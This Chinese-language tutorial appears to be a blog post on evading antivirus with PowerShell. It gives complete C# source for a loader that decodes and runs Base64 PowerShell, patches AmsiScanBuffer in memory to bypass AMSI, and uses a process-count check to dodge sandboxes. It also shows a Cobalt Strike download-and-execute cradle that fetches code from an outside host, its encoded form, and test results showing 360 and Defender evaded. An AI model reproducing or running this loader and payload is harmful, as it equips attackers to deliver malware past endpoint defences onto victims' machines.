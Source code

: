 # 前言





# 分析powershell

通过查看powershell程序的模块调用，发现有一个名为`System.Management.Automation.ni.dll`，这个Dll包含PowerShell 运行时和所有在 PowerShell 环境中运行的命令

`System.Management.Automation.ni.dll` 是预编译版本的 `System.Management.Automation.dll`，这样 PowerShell 可以更快地加载和运行

若想执行 PowerShell 命令或脚本的 C# 程序，都需要引用 `System.Management.Automation.dll`

<img src="Powershell免杀/image-20230719000833203.png" alt="image-20230719000833203" style="zoom:80%;" />



# 代码实现

创建一个C#的`.Net Framework`项目，添加引用，点击浏览找到`System.Management.Automation.dll`其所在路径并勾选上

![image-20230719001757139](Powershell免杀/image-20230719001757139.png)



下述代码是一个完整的PowerShell脚本执行环境，它支持接收Base64编码的PowerShell脚本作为参数，解码并执行脚本，同时如果参数中包含"-s"，那么还会执行bypass AMSI的操作。其中AMSI是Windows中用于防止恶意脚本执行的安全机制

```cpp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Collections.ObjectModel;
using System.Runtime.InteropServices;
using System.Text;
using System.Collections.Generic;

namespace MyPowershell
{
    class Program
    {
        // 使用DllImport属性导入kernel32.dll中的GetProcAddress函数，用于获取指定模块的函数或变量的地址。
        [DllImport("kernel32")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        // 导入kernel32.dll中的LoadLibrary函数，用于加载指定的动态链接库，并返回库的句柄。
        [DllImport("kernel32")]
        public static extern IntPtr LoadLibrary(string name);

        // 导入kernel32.dll中的VirtualProtect函数，用于改变指定内存区域的保护属性。
        [DllImport("kernel32")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

        // 用于将byte数组中的数据复制到指定的内存地址中。
        private static void copy(Byte[] Patch, IntPtr Address)
        {
            Marshal.Copy(Patch, 0, Address, 6);
        }

        // 此方法通过修改AmsiScanBuffer函数来bypass AMSI检测。
        public static void chaching()
        {
            // 加载amsi.dll
            IntPtr Library = LoadLibrary("a" + "m" + "s" + "i" + ".dll");
            // 获取AmsiScanBuffer函数的地址
            IntPtr Address = GetProcAddress(Library, "Amsi" + "Scan" + "Buffer");
            uint p;
            // 修改AmsiScanBuffer函数的内存保护属性
            VirtualProtect(Address, (UIntPtr)5, 0x40, out p);
            // 准备新的函数字节码
            Byte[] Patch = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };
            // 将新的函数字节码复制到AmsiScanBuffer函数的地址
            copy(Patch, Address);
            Console.WriteLine("Patch Applied");
        }

        static void Main(String[] args)
        {
            // 如果命令行参数为空，结束程序运行
            if (args.Length == 0)
                Environment.Exit(1);
			
            // 判断系统的进程数是否小于40，如果小于40则退出程序(用来反defender的沙箱)
            if (Process.GetProcesses().Length < 40)
            {
                Console.WriteLine("The number of processes in the system is less than 40. Exiting the program.");
                Environment.Exit(0);
            }
            
            List<string> argsList = new List<string>(args);

            // 如果命令行参数中包含“-s”，则执行bypass amsi的操作
            if (argsList.Contains("-s"))
            {
                chaching();
                argsList.Remove("-s"); //从参数数组中移除"-s"
            }

            // 对传入的Base64编码的字符串进行解码
            string temp = Base64Decode(argsList[0]);
            // 运行解码后的PowerShell脚本，并将执行结果输出到控制台
            string s = RunScript(temp);
            Console.WriteLine(s);
            Console.ReadKey();
        }

        // Base64解码函数
        public static string Base64Decode(string s)
        {
            return System.Text.Encoding.Default.GetString(System.Convert.FromBase64String(s));
        }

        // 运行PowerShell脚本并返回执行结果的函数
        private static string RunScript(string script)
        {
            // 创建并打开一个运行空间，用于运行PowerShell命令
            Runspace MyRunspace = RunspaceFactory.CreateRunspace();
            MyRunspace.Open();

            // 在运行空间中创建一个管道，用于存放待执行的PowerShell命令
            Pipeline MyPipeline = MyRunspace.CreatePipeline();
            // 在管道中添加PowerShell命令
            MyPipeline.Commands.AddScript(script);
            // 在管道中添加输出命令，使得PowerShell命令的执行结果能被程序获取
            MyPipeline.Commands.Add("Out-String");

            // 调用管道中的PowerShell命令，并获取执行结果
            Collection<PSObject> outputs = MyPipeline.Invoke();
            // 关闭运行空间
            MyRunspace.Close();

            // 将执行结果转换为字符串
            StringBuilder sb = new StringBuilder();
            foreach (PSObject pobject in outputs)
            {
                sb.AppendLine(pobject.ToString());
            }

            return sb.ToString();
        }
    }
}

```

​		

# 运行测试

## 360核晶环境

360静态查杀没有报毒

<img src="Powershell免杀/image-20230719101836803.png" alt="image-20230719101836803" style="zoom:67%;" />	



使用CobaltStrike生成Powershell命令, 我们只需截取以下部分作为payload即可

```
IEX ((new-object net.webclient).downloadstring('http://192.168.47.155:80/a'))
```



将payload进行base64加密

```
SUVYICgobmV3LW9iamVjdCBuZXQud2ViY2xpZW50KS5kb3dubG9hZHN0cmluZygnaHR0cDovLzE5Mi4xNjguNDcuMTU1OjgwL2EnKSk=
```



打开cmd或powershell执行如下命令，cs上线成功，没有被核晶拦截

```
Mypowershell.exe SUVYICgobmV3LW9iamVjdCBuZXQud2ViY2xpZW50KS5kb3dubG9hZHN0cmluZygnaHR0cDovLzE5Mi4xNjguNDcuMTU1OjgwL2EnKSk=
```

![image-20230719104136698](Powershell免杀/image-20230719104136698.png)



## Defender环境

在WindowsDefender环境下按照之前的操作执行会被amsi拦截（360是没有集成amsi的）

![image-20230719111801493](Powershell免杀/image-20230719111801493.png)



因此需加上-s参数来绕过amsi，这样CS就能正常上线了

![image-20230719111453899](Powershell免杀/image-20230719111453899.png)





​		



​		